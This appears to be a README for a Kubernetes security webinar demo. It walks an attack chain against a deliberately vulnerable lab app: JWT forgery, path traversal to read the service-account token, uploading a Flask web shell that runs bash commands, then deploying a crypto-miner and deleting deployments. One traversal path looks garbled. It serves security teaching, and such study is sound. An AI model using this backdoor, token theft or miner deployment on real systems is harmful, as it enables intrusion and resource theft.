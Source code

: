 # Exploit Application Vulnerabilities

Application vulnerabilities can bring wide range of different *attack entrypoints*. In addition to Kubernetes-specific vulnerabilities and misconfigurations, this can lead to various beautiful attacks.

---
![K8s threat matrix](../static/03-k8s-matrix.png)
*Kubernetes threat matrix for the demo attack below*

---

## Demo: run a crypto-miner in the cluster

### Attack description:
- **Setup**: a K8s cluster with a web application deployed
- **Attacker**: an external user without any access to the cluster
- **Target**: kubectl access to the cluster (then: cluster compute resources, cluster availability, application data, more)
- **Entrypoint**: web application


## Steps to reproduce

1. deploy [./vulnerable-app](vulnerable-app) (both `auth-api` and `images-api`) and `another-app` (empty)

2. explore the images service: [http://images.vulnerable-app.seck8s.slurm.io](http://images.vulnerable-app.seck8s.slurm.io), [http://images.vulnerable-app.seck8s.slurm.io?token=foo](http://images.vulnerable-app.seck8s.slurm.io?token=foo):
[![Images-api forbidden](../static/03-application-security/01-images-api.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=49m31s)

3. explore the auth service: [http://auth.vulnerable-app.seck8s.slurm.io/](http://auth.vulnerable-app.seck8s.slurm.io/), sign-up a user:
[![Auth-api signup](../static/03-application-security/02-auth-api-signup.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=49m56s)

4. login with the newly created user and be redirected to the images service:
[![Images-api user account](../static/03-application-security/03-images-api-jwt.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=50m14s)

5. side note: it is insecure to pass sensitive information in GET parameters, see how it gets logged to stdout by Flask: [dashboard link](http://dashboard.seck8s.slurm.io/clusters/local/namespaces/vulnerable-app/deployments/images-api/logs)

---

6. copy the JWT token, explore it in [jwt.io](https://jwt.io/):
    - architecture issue: symmetric algorithm (HS256 not RS256) => both services (the one that generates and another that checks the token) use the same secret and therefore *both can issue a new JWT*

7. crack or leak the secret `secret123`:
    - leaked through the K8s configuration (secret mount to the env var `SECRET_KEY` is hard-coded in the manifest): [dashboard auth-api](http://dashboard.seck8s.slurm.io/clusters/local/namespaces/vulnerable-app/deployments/auth-api), [dashboard images-api](http://dashboard.seck8s.slurm.io/clusters/local/namespaces/vulnerable-app/deployments/images-api)
    - since the manifests are version-controlled, can be found in the Git commit history (`git blame`): [github link](https://github.com/Slurmio/webinar-seck8s/blob/98bab96647708ab5368b5b51ccdf96dd2071894e/03-application-security/vulnerable-app/images-api/deploy/images-api.yaml#L22) (*vulnerability: [Hard-Coded Credentials](https://owasp.org/www-community/vulnerabilities/Use_of_hard-coded_password)*. Remember: source code is not secret!)
    - the secret is weak therefore very easy to crack - in minutes with the tool [lmammino/jwt-cracker](https://github.com/lmammino/jwt-cracker) (*vulnerability: Weak Secret*)

8. escalate provileges by changing the `"role": "user"` to `"role": "admin"` in the JWT payload (*vulnerability: [Broken User Authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication)*)
    [![Cracked jwt token](../static/03-application-security/04-jwt-cracked.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=53m09s)

9. proceed to `images-api` with the new token, see the admin page
    [![Images-api admin](../static/03-application-security/05-images-admin.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=53m20s)

---

10. read some files from the pod: `../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token` (pod service account's token and certificate), `../app.py` (source code of the Flask app), `../../../../../../etc/shadow/proc/1/environ` (pod environment variables), etc. (*vulnerability: [LFI, Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)* + too high privileges as the pod is running as `root` in the container)
[![LFI read SA certificate](../static/03-application-security/06-var-run-kubernetes-crt.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=54m44s)
[![LFI read SA certificate: base64-encoded](../static/03-application-security/07-var-run-kubernetes-crt-base64enc.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=54m45s)
[![LFI read SA certificate: base64-decoded](../static/03-application-security/08-var-run-kubernetes-crt-base64dec.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=54m56s)

> Note: by now, we acquired the service account credentials to the cluster. If we know the external Kube API address (if it's exposed), then we have the remote kubectl access:
> `kubectl --server=https://kubernetes.default.svc --certificate-authority=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt --token=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token) <command>`

> However, Kube API is not always exposed, so let's try to get kubectl working from the pod itself.

---

11. upload the new Flask file to `../app.py` with the backdoor activated via GET parameter `cmd` (*vulnerability: [Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)* -- the attacker can upload file to an arbitrary directory):
    - construct the payload ([payloads/app.py](payloads/app.py)):
    ```python
    ...
    @app.route("/", methods=["GET"])
    def home():
        cmd = request.args.get('cmd')
        if cmd:
            import subprocess
            p = subprocess.run(["bash", "-c", cmd], stderr=subprocess.STDOUT, stdout=subprocess.PIPE)
            return p.stdout.decode()
        ...
    ```
    - try to browse [http://images.vulnerable-app.seck8s.slurm.io/?cmd=ls](http://images.vulnerable-app.seck8s.slurm.io/?cmd=ls), get Unauthorized
    ```sh
    TOKEN=<your token>
    curl -vv -o /tmp/out.html -F "file=@payloads/app.py; filename=../app.py" "http://images.vulnerable-app.seck8s.slurm.io/?token=$TOKEN"
    ```
    [![UFU upload shell](../static/03-application-security/09-file-upload.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=57m12s)

    - try again [http://images.vulnerable-app.seck8s.slurm.io/?cmd=ls](http://images.vulnerable-app.seck8s.slurm.io/?cmd=ls), get the backdoor shell
    - since the server is in Debug mode, it auto-reloads without restarting the pod

12. use the backdoor to install `kubectl` (note again: the pod is running Ubuntu as `root`) by navigating to `http://images.vulnerable-app.seck8s.slurm.io/?cmd=...`:
    - `kubectl get all`
    - install curl: `apt-get update`, `apt-get -y install curl`
    - install kubectl ([instruction](http://kubernetes.io/docs/tasks/tools/install-kubectl-linux/)):
        - `curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"`
        - `install -o root -g root -m 0755 kubectl /usr/local/bin/kubectl`
    - `kubectl get all`

13. note, the pod's SA has only permissions on Deployments -- it's done by mistake by another developer who accidentally gave extra permissions to the default service account in the namespace `vulnerable-app` (see [vulnerable-app/another-app/deploy/rbac.yaml](vulnerable-app/another-app/deploy/rbac.yaml))

14. now, let's deploy a miner:
    - use the web form [http://images.vulnerable-app.seck8s.slurm.io/?token=...](http://images.vulnerable-app.seck8s.slurm.io/?token=...) to upload the miner's manifest [payloads/monero-deployment.yaml](payloads/monero-deployment.yaml) (note: you need to use the admin JWT token again)
    - use the backdoor to: `kubectl apply -f images/monero-deployment.yaml`

15. or shut down the cluster's payload (Deployment only, permitted by RBAC): `kubectl delete deployment auth-api`

16. cleanup:
    ```sh
    cd vulnerable-app
    k delete -f another-app/deploy
    k -n vulnerable-app delete -f images-api/deploy
    k -n vulnerable-app delete -f auth-api/deploy
    k delete ns vulnerable-app
    cd ../../02-exposed-dashboard/
    k -n exposed-dashboard delete -f kube-web-view/deploy
    k -n exposed-dashboard delete -f kube-web-view/deploy-ingress
    ```

## Takeaways
- Application vulnerabilities are common attack entrypoints, see [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- Try to minimize the attacker's capabilities (use minimal images as alpine, don't run containers as root, note the sensitive information to be hard-coded, minimize privileges of the service accounts, etc)

